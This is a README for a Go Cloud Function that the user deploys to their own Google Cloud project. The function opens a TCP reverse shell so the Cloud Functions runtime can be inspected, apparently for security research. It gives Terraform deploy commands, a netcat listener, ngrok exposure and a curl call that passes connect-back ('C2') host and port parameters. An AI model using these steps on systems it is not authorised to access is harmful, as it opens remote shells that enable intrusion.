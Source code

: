 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Google Cloud SDK](https://cloud.google.com/sdk/install)
* [Go](https://go.dev)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying The Function

```bash
gcloud auth application-default login
export TF_VAR_unique_identifier=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}')
export TF_VAR_project_id=YOUR_PROJECT_ID
export TF_VAR_region=YOUR_REGION
cd ./cougar/src/terraform/
terraform init
terraform apply --auto-approve
```

## Function Testing

Retrieve the Function URL:

```bash
export CHEETAH_FUNCTION_URL=$(terraform output --json | jq -r '.cheetah_function_url.value')
export CHEETAH_API_KEY=$(gcloud auth print-identity-token)
curl -H "Authorization: Bearer $CHEETAH_API_KEY" "$CHEETAH_FUNCTION_URL"
```

The result should show an error message indicating required C2 parameters are missing:

```json
{"message":"Must provide the host and port for the target TCP server as query parameters."}
```

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
../../../script/prey.sh cheetah --url $CHEETAH_FUNCTION_URL --api-key $CHEETAH_API_KEY
```

See [here](../script/USAGE.md) for more details on how to use this script.

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details:

```bash
curl "$CHEETAH_FUNCTION_URL?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER"
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
terraform destroy
```

## Learning More

Read [documentation](docs) on what you can accomplish once you connect to the runtime via Cheetah.
